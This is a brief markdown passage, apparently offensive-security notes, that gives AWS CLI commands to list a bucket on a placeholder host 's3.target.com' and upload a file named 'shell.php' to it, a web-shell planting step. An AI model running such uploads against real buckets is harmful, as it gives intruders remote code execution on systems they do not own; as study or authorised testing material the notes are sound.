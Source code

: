 Set up the AWS CLI installation

```sh
aws configure
```

List all of the S3 buckets

```sh
aws --endpoint-url=http://s3.target.com s3 ls s3://target.com
```

Upload file on S3 buckets

```sh
aws --endpoint-url=http://s3.target.com s3 cp shell.php s3://target.com
```